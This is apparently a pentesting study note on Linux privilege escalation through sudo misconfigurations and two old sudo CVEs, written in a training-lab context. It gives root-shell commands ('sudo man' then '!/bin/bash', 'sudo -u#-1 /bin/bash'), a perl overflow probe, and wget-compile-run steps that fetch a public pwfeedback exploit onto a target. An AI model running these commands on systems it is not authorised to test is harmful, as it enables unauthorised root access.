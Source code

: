 # Linux Privilege Escalation: SUDO Privileges

## Contents
- [What are we looking for?](#what-are-we-looking-for)
- [Standard Local Enumeration](#standard-local-enumeration)
  - [`sudo -l`](#sudo--l)
  - [Results](#results)
  - [The Vulnerability](#the-vulnerability)
- [The Hack: `sudo man [command]`](#the-hack-sudo-man-command)
- [Security Bypass (sudo < 1.8.28)](#security-bypass-sudo--1828)
- [pwfeedback (sudo < 1.8.26)](#pwfeedback-sudo--1826)

## What are we looking for?
- We are looking for poorly configured binaries (executables) on the compromised Linux system.
  - We can use these binaries to elevate our privileges
- Many binaries in Linux can be used to execute specific commands.
  - If a binary has sudo privileges attached (without a password), you may be able to use that binary to spawn a shell (thus gaining root privs). 

## Standard Local Enumeration

### `sudo -l`
```
cat /etc/passwd     #find out what other users are configured on the system
sudo -l
```
-  `-l` (lowercase "L" for list) list out the sudo commands the current user can run.
-  [From the man page](https://linux.die.net/man/8/sudo): The `-l` (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

### Results
- Assume we found a binary we can run with sudo privileges: `/sur/bin/man`
- And the "NOPASSWD" option has been set
- So we can run that command as root without any password or authentication
- This is a misconfiguration we can exploit (see below).
- Use [GTFOBins](https://gtfobins.github.io/) to look up how to compromise the binary file you and use with sudo.

### The Vulnerability
- The `man` utility (to display "man pages") allows you to spawn a Bash shell via the utility itself.
- The normal way you'd open a man page is `man [command]`.
  - This will open the man page with the current user's privileges.
- But if you can run `/usr/bin/man` with root privs using `sudo` (because it's set with "NOPASSWD"), then you can open a shell as root.
  - Preface the `man` comand with `sudo`. That runs the command with root privileges: `sudo man [command]`
  - And since the system is configured to run `/usr/bin/man` via sudo without a password, you are not prompted for any authentication. 

## [The Hack](https://gtfobins.github.io/gtfobins/man/#sudo): `sudo man [command]`
- Open a man page (any man page) with sudo: `sudo man [command]` 
- It parses out the contents of the man page with "more"
- While the man page is displayed, you can enter commands with the "!"
  - Example:  `!/bin/bash`
  - This is a function of more not of man.
  - [From the more man page](https://man7.org/linux/man-pages/man1/more.1.html): `!command` or `:!command` : Execute command in a subshell.
  - `less` works the same way.
- This results in a Bash session as root (the owner of the man process from which the shell was spawned).

## [Security Bypass (sudo < 1.8.28)](https://www.exploit-db.com/exploits/47502) 
> CVE-2019-14287

### 1. Check for the user sudo permissions
- You can either run a `sudo -l` or `cat` out the **/etc/sudoers/** file.
- You are looking for this configuration: 
```
# from sudo -l: 
User hacker may run the following commands on kali:
  (ALL, !root) /bin/bash

# or in /etc/sudoers:
hacker ALL=(ALL,!root) /bin/bash
```

### 2. Exploit: 
- Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo privilege.
- `-u#-1` returns as 0 which is root's id
- And then /bin/bash is executed with root permission:
```
sudo -u#-1 /bin/bash
```

### 3. [TryHackMe Walk-Through](https://tryhackme.com/r/room/sudovulnsbypass)

## [pwfeedback (sudo < 1.8.26)](https://www.exploit-db.com/exploits/47995)
> CVE-2019-18634

If pwfeedback is enabled in sudoers, you may be able to escalate privileges through buffer overflow.
- Sudo's pwfeedback option can be used to provide visual feedback when the user is inputting their password.
- For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard Password: prompt disables the echoing of key presses.
- While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.
- Due to a bug, when the pwfeedback option is enabled in the sudoers file, a user may be able to trigger a stack-based buffer overflow.
- This bug can be triggered even by users not listed in the sudoers file.
- There is no impact unless pwfeedback has been enabled.

### 1. Check for the configuration: pwfeedback
- Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled.
- You can try a `sudo -l` or `cat /etc/sudoers` but if you cannot access sudo because of perms, just run sudo command (any command; e.g., `sudo su root`).
- If you get an asterisk everytime you type a letter in for the password, pwfeedback is enabled.
- If sudo is < 1.8.26, then the hack should work.
```
sudo -l
# If the results include pwfeedback, like below, sudo is vulnerable.
Matching Defaults entries for millert on linux-build:
insults, pwfeedback, mail_badpass, mailerpath=/usr/sbin/sendmail

User millert may run the following commands on linux-build:
(ALL : ALL) ALL
```

### 2. You can check to see if the vulnerability can be exploited with:
```
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```
- If that returns `Password: Segmentation fault`, it is exploitable.
- This perl command does not actually exploit the vulnerability.
  - We use Perl to generate a lot of information which we're then passing into the sudo command as a password using the pipe (|) operator.
  - This doesn't actually give us root permissions -- instead it shows us an error message: Segmentation fault, which basically means that we've tried to access some memory that we weren't supposed to be able to access.
  - This proves that a buffer overflow vulnerability exists, but it doesn't exploit it. 

### 3. Exploit:
- [Actual Exploit](https://github.com/saleemrashid/sudo-cve-2019-18634) | [TryHackMe Write-Up](https://tryhackme.com/r/room/sudovulnsbof)

```
#Download the C code onto your target machine (because you have to compile on the target machine).
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/refs/heads/master/exploit.c

# Compile that file on the target machine: 
gcc -o exploit exploit.c 

# Execute it:
./exploit
```
